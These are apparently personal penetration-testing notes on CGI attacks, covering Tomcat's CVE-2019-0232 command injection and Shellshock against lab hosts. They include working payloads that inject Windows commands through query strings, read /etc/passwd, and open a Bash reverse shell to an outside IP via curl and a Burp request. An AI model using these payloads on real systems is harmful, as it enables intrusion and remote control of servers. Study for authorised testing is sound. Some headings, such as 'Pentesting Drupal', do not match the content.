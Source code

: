 ```yaml
---
title: Pentesting Drupal
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - CGI
---
```


# Pentesting Common Gateway Interface (CGI) applications

A [Common Gateway Interface (CGI)](https://www.w3.org/CGI/) is used to help a web server render dynamic pages and create a customized response for the user making a request via a web application. CGI applications are primarily used to access other applications running on a web server. CGI is essentially middleware between web servers, external databases, and information sources. CGI scripts and programs are kept in the `/CGI-bin` directory on a web server and can be written in C, C++, Java, PERL, etc. CGI scripts run in the security context of the web server.

CGI scripts/applications are typically used for a few reasons:

- If the webserver must dynamically interact with the user
- When a user submits data to the web server by filling out a form. The CGI application would process the data and return the result to the user via the webserver

The CGI program starts a new process for each HTTP request which can take up a lot of server memory.



## Attacking Tomcat CGI

The CGI Servlet is a vital component of Apache Tomcat that enables web servers to communicate with external applications beyond the Tomcat JVM. These external applications are typically CGI scripts written in languages like Perl, Python, or Bash. The CGI Servlet receives requests from web browsers and forwards them to CGI scripts for processing.

>In a nugshell, a CGI Servlet is a program that runs on a web server, such as Apache2, to support the execution of external applications that conform to the CGI specification.

`CVE-2019-0232` is a critical security issue that could result in remote code execution. 

- This vulnerability affects Windows systems that have the `enableCmdLineArguments` feature enabled.
- Versions `9.0.0.M1` to `9.0.17`, `8.5.0` to `8.5.39`, and `7.0.0` to `7.0.93` of Tomcat are affected.
- The `enableCmdLineArguments` setting for Apache Tomcat's CGI Servlet controls whether command line arguments are created from the query string. If set to true, the CGI Servlet parses the query string and passes it to the CGI script as arguments.


Example:

Suppose you have a CGI script that allows users to search for books in a bookstore's catalogue. The script has two possible actions: "search by title" and "search by author."

```HTTP
http://example.com/cgi-bin/booksearch.cgi?action=title&query=the+great+gatsby
# Here, the action parameter is set to title, indicating that the script should search by book title. The query parameter specifies the search term "the great gatsby."

http://example.com/cgi-bin/booksearch.cgi?action=author&query=fitzgerald
# Here, the action parameter is set to author, indicating that the script should search by author name. The query parameter specifies the search term "fitzgerald."
```

For instance, an attacker can append `dir` to a valid command using `&` as a separator to execute `dir` on a Windows system.

```HTTP
http://example.com/cgi-bin/booksearch.cgi?action=author&query=fitzgerald?&dir
```

Finding an injection endpoint:

```
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.205.30:8080/cgi/FUZZ.cmd 
```

Since the operating system is Windows, we aim to fuzz for batch scripts. Although fuzzing for scripts with a .cmd extension is unsuccessful, we successfully uncover the welcome.bat file by fuzzing for files with a .bat extension.


```
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.205.30:8080/cgi/FUZZ.bat
```

If we find an endpoint named "lala" we can trigger the RCE by browsing to:

```html
http://10.129.205.30:8080/cgi/lala.bat?&dir
```

We can do a whoami like this:

```
http://10.129.205.30:8080/cgi/welcome.bat?&c:\windows\system32\whoami.exe

# And URL parsed would be:
http://10.129.205.30:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe
```


## Attacking Sherlock

The Shellshock vulnerability ([CVE-2014-6271](https://nvd.nist.gov/vuln/detail/CVE-2014-6271)) allows an attacker to exploit old versions of Bash that save environment variables incorrectly.

**1.** Find endpoints:

```shell-session
 gobuster dir -u http://10.129.204.231/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi
```

Let's say we find access.cgi.

**2.** Next, we can cURL the script and notice that nothing is output to us, so perhaps it is a defunct script but still worth exploring further.

```shell-session
curl -i http://10.129.204.231/cgi-bin/access.cgi
```


**3.**  Explaining the payload:

```shell-session
env y='() { :;}; echo vulnerable-shellshock' bash -c "echo not vulnerable"
```

When the above variable is assigned, Bash will interpret the `y='() { :;};'` portion as a function definition for a variable `y`. The function does nothing but returns an exit code `0`, but when it is imported, it will execute the command `echo vulnerable-shellshock` if the version of Bash is vulnerable.


### Reading /etc/passwd

We can test the user-agent header and see that the contents of the `/etc/passwd` file are returned to us, thus confirming the vulnerability via the user-agent field.

```shell-session
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.129.204.231/cgi-bin/access.cgi
```

The payload:

 ```
 () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'
 ```


### Exploitation to Reverse Shell Access

Set a listener:

```shell-session
nc -lnvp 1234
```

Get the reverse shell with curl: 

```shell-session
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.15.78/1234 0>&1' http://10.129.204.231/cgi-bin/access.cgi
```

Get the reverse shell with Burpsuite:

```
GET /cgi-bin/access.cgi HTTP/1.1
Host: 10.129.205.27
User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.15.78/1234 0>&1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
If-Modified-Since: Mon, 12 Oct 2020 09:32:54 GMT
If-None-Match: "2aa6-5b175fba24dbe-gzip"
```



>Shellshock is a legacy vulnerability that is now nearly a decade old. But just because of its age, that does not mean we will not run into it occasionally. If you come across any web applications using CGI scripts during your assessments (especially IoT devices), it is definitely worth digging.


